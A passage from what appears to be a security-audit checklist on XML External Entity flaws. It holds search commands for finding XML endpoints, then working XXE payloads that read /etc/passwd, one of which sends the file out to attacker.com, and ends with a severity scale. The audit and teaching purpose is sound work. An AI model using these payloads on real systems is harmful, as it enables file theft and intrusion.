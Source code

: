 ### 3. Endpoint Analysis
```bash
# Find XML-accepting endpoints
rg -n "application/xml|text/xml|Content-Type.*xml" 
rg -n "@Consumes.*xml|@RequestMapping.*xml" --type java
rg -n "parseString|fromstring.*request" --type js --type py
```

## Advanced XXE Exploitation

### 1. Time-Based Blind XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://attacker.com/time.dtd">
  %remote;
]>
<root></root>


<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com:8080/?%payload;'>">
%param1;
%exfil;
```

### 2. Error-Based XXE
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % file SYSTEM "file:///nonexistent">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<root></root>
```

### 3. XXE via XInclude
```xml
<?xml version="1.0" encoding="UTF-8"?>
<root xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include href="file:///etc/passwd" parse="text"/>
</root>
```

</language_specific_checklist>
<severity_assessment>
<critical>XXE enabling sensitive file disclosure or RCE</critical>
<high>SSRF via XXE or significant information disclosure</high>
<medium>Limited XXE with restricted impact</medium>
<low>XXE with minimal security implications</low>
</severity_assessment>